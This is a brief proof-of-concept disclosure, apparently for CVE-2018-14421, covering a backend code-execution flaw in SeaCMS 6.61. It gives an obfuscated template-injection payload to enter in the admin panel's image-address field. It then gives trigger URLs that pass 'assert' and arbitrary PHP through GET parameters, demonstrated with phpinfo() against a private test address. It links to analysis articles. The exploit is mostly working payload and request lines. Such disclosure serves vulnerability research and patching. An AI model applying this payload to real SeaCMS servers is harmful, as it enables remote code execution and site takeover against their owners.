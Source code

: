 ## Affected Version 6.61



## POC



后台的-->添加影片--> 图片地址-->payload

`{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}`

![](http://opmi2ydgh.bkt.clouddn.com//18-7-31/2272010.jpg)



访问



`http://192.168.0.6/seacms661/detail/?1.html&a=assert&b=phpinfo();`

`http://192.168.0.6/seacms661/search.php?searchtype=5&tid=0&a=assert&b=phpinfo();`



![](http://opmi2ydgh.bkt.clouddn.com//18-7-31/68446790.jpg)



## References



[seacms backend getshell](http://hexo.imagemlt.xyz/post/seacms-backend-getshell/index.html)

[CVE-2018-14421——Seacms后台getshell分析](https://www.anquanke.com/post/id/152764)







